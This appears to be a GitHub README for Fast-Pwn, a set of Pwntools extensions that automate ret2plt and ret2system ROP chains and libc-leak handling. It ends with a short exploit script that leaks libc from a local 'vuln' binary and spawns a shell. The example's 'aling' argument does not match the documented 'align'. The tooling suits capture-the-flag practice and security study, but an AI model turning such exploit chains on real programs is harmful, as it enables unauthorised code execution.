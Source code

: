 # Fast-Pwn
Some code I have added to my local Pwntools to speed up things.

# Changes Made
### Added Code to -

[pwnlib/rop/rop.py](pwnlib/rop/rop.py) - Added 2 functions [ret2plt and ret2system](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/rop/rop.py#L1551-L1561) \
[pwnlib/elf/elf.py](pwnlib/elf/elf.py) - Added 2 functions [section_addr and find_bin_sh](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/elf/elf.py#L1547-L1570), Edited [libc function](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/elf/elf.py#L716-L723) \
[pwnlib/tubes/tube.py](pwnlib/tubes/tube.py) - Added 2 functions [sendpayload](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/tubes/tube.py#L863-L872) and [recv_libc_leak](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/tubes/tube.py#L753-L763)

### Created New File

[pwnlib/rop/ret2system.py](pwnlib/rop/ret2system.py) \
[pwnlib/rop/ret2plt.py](pwnlib/rop/ret2plt.py)

# Summary 

- ret2system() - creates a return to system rop chain, accepts two arguments align and bin_sh
- ret2plt() - creates a return to plt rop chain, accepts two arguments leak and ret
- recv_libc_leak() - receive 6 bytes on amd64 and 4 bytes on i386, then unpack tye address and substract the offset and return libc base address, accepts one argument offset
- sendpayload() - accepts 2 arguments offset and payload and send flat{offset:payload}
- find_bin_sh() - return /bin/sh address 
- section_addr() - return the address of section like(.bss,.data), accepts 2 arguments name and offset

### Quick Fixes -

- libc() - I like to use elf.libc but it is broken so i fixed it but still works only on 64 bit, requirement - `pip3 install pylddwrap`

Example - 

```python
from pwn import *

elf = context.binary = ELF("vuln")
rop = ROP(elf)
libc = elf.libc
offset = 136

io = process()
io.clean()

rop.ret2plt(leak=elf.got.puts, ret=elf.sym.main)
io.sendpayload(offset=offset, payload=rop.chain())

io.recvline()
libc.address = io.recv_libc_leak(offset=libc.sym.puts)

rop1 = ROP(libc)
rop1.ret2system(aling=True)
io.sendpayload(offset=offset, payload=rop1.chain())
io.interactive()
```

